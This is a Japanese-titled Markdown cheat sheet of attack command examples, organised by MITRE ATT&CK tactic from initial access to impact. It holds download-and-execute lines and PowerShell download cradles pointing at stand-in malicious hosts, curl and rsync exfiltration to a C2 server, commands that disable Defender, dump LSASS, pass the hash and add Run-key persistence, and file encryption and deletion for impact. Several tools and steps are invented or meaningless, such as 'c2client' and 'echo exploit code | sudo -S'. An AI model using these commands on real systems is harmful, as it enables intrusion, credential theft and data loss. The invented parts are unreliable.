 ## 攻撃手法例

:::details Initial Access
```shell
# Send a spear-phishing email with a malicious attachment
sendemail -f attacker@example.com -t target@example.com -u "Important Update" -m "Please see attached" -a malicious_attachment.exe
```
source: https://attack.mitre.org/techniques/T1566/

```shell
# Use an exploit kit to deliver malware via a web browser
curl http://malicious-website.com/ekit -o /tmp/exploit_kit && chmod +x /tmp/exploit_kit && /tmp/exploit_kit
```
source: https://attack.mitre.org/techniques/T1203/
:::

:::details Execution
```shell
# Execute a malicious PowerShell script
powershell -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious-website.com/malicious.ps1')"
```
source: https://attack.mitre.org/techniques/T1059/001/

```shell
# Execute a payload using a command-line interpreter
cmd.exe /c "payload.exe"
```
source: https://attack.mitre.org/techniques/T1059/
:::

:::details Persistence
```shell
# Install a bootkit to maintain persistence across reboots
bootkit_install -payload /path/to/bootkit
```
source: https://attack.mitre.org/techniques/T1542/003/

```shell
# Create a scheduled task to re-execute payloads
schtasks /create /sc minute /mo 1 /tn "Updater" /tr "cmd.exe /c payload.exe"
```
source: https://attack.mitre.org/techniques/T1053/005/
:::

:::details Privilege Escalation
```shell
# Exploit sudo to gain elevated privileges
echo "exploit code" | sudo -S
```
source: https://github.com/sudo-project/sudo

```shell
# Use a kernel exploit to escalate privileges
wget http://exploit-db.com/exploits/41212.c -O exploit.c && gcc exploit.c -o exploit && ./exploit
```
source: https://attack.mitre.org/techniques/T1068/
:::

:::details Defense Evasion
```shell
# Obfuscate the payload to evade detection
obfuscate_tool -i payload.exe -o obfuscated_payload.exe
```
source: https://attack.mitre.org/techniques/T1027/

```shell
# Disable security tools to avoid detection
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
```
source: https://attack.mitre.org/techniques/T1562/
:::

:::details Credential Access
```shell
# Deploy a keylogger to capture credentials
keylogger -install
```
source: https://attack.mitre.org/techniques/T1056/001/

```shell
# Dump credentials from LSASS memory
procdump -accepteula -ma lsass.exe lsass.dmp
```
source: https://attack.mitre.org/techniques/T1003/001/
:::

:::details Discovery
```shell
# Scan the network to identify other systems
nmap -sP 192.168.1.0/24
```
source: https://attack.mitre.org/techniques/T1046/

```shell
# Gather system information
systeminfo
```
source: https://attack.mitre.org/techniques/T1082/
:::

:::details Lateral Movement
```shell
# Use pass-the-hash to move laterally
pth-winexe -U user%aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99 //target cmd.exe
```
source: https://attack.mitre.org/techniques/T1550/002/

```shell
# Use RDP to move laterally
xfreerdp /u:user /p:password /v:target
```
source: https://attack.mitre.org/techniques/T1021/001/
:::

:::details Collection
```shell
# Collect data from databases or other repositories
dbclient -h target -u user -p password -d database -e "SELECT * FROM sensitive_data"
```
source: https://attack.mitre.org/techniques/T1213/

```shell
# Capture screenshots of the user's desktop
screencapture -x /path/to/screenshot.png
```
source: https://attack.mitre.org/techniques/T1113/
:::

:::details Exfiltration
```shell
# Exfiltrate data over a C2 channel
curl -X POST -d @data.txt http://malicious-c2.com/upload
```
source: https://attack.mitre.org/techniques/T1041/

```shell
# Compress data before exfiltration
tar -czvf data.tar.gz /path/to/data
```
source: https://attack.mitre.org/techniques/T1560/002/
:::

:::details Impact
```shell
# Encrypt files to disrupt operations (ransomware)
openssl enc -aes-256-cbc -salt -in file.txt -out file.enc -k password
```
source: https://attack.mitre.org/techniques/T1486/

```shell
# Delete data to disrupt operations
rm -rf /path/to/data
```
source: https://attack.mitre.org/techniques/T1485/
:::

:::details Command and Control
```shell
# Use web-based C2 communications
c2client -connect http://malicious-c2.com
```
source: https://attack.mitre.org/techniques/T1102/

```shell
# Use domain fronting to disguise C2 traffic
c2client -fronting http://legitimate-site.com -connect http://malicious-c2.com
```
source: https://attack.mitre.org/techniques/T1071/003/
:::

:::details Recon
```shell
# Start botnet-server 
botnet-server --start
```
source: https://github.com/jgamblin/Mirai-Source-Code
:::

:::details Exfiltration
```shell
# Exfiltrate data using rsync over SSH
rsync -avz -e ssh /path/to/data user@malicious-server:/path/to/destination
```
source: https://linux.die.net/man/1/rsync
:::

:::details Collection
```shell
# Archive files for easier exfiltration
tar -czvf archive.tar.gz /path/to/files
```
source: https://attack.mitre.org/techniques/T1560/
:::

:::details Lateral Movement
```shell
# Use SMB to move laterally across the network
smbclient //target/share -U user -p password
```
source: https://attack.mitre.org/techniques/T1021/002/
:::

:::details Discovery
```shell
# Perform an ARP scan to identify devices on the network
arp-scan -l
```
source: https://nmap.org/book/arp-scanning.html
:::

:::details Credential Access
```shell
# Crack password hashes to gain access
hashcat -m 1000 -a 0 hash.txt /path/to/wordlist
```
source: https://hashcat.net/hashcat/
:::

:::details Defense Evasion
```shell
# Use a Tor proxy to anonymize communications
torify curl http://malicious-site.com
```
source: https://www.torproject.org/
:::

:::details Privilege Escalation
```shell
# Exploit a vulnerability in sudo for root access
echo "exploit code" | sudo -S
```
source: https://github.com/sudo-project/sudo
:::

:::details Persistence
```shell
# Create a startup item to ensure persistence
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\path\to\payload.exe" /f
```
source: https://attack.mitre.org/techniques/T1037/
:::

:::details Execution
```shell
# Execute a Java-based payload
java -jar payload.jar
```
source: https://attack.mitre.org/techniques/T1059/007/
:::

:::details Initial Access
```shell
# Compromise a website to deliver malware
waterhole_attack -target http://compromised-website.com
```
source: https://attack.mitre.org/techniques/T1189/
:::
